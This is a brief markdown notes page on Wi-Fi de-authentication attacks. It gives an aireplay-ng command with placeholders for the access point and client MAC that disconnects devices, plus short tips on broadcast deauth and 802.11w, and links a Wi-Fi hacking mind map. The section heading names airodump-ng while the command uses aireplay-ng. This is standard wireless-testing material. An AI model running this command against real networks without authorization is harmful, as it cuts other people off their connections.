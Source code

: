 ### Introduction
---
Send out de-authentication packets to devices connected to the network. This will disconnect the devices. 

### airodump-ng
---
##### Attack the Target Network
```
sudo aireplay-ng wlan0mon --deauth [seconds] -a [BSSID] -c [MAC Address of Client] 
```
- Run broadcast de-auth without the `-c` option
- If 802.11w is used, unencrypted de-auth will not be accepted. 

### MDK3 / MDK4
---
[WiFi-Hacking-MindMap-v1.png (11561×3823) (raw.githubusercontent.com)](https://raw.githubusercontent.com/koutto/pi-pwnbox-rogueap/main/mindmap/WiFi-Hacking-MindMap-v1.png)

- To be continued.


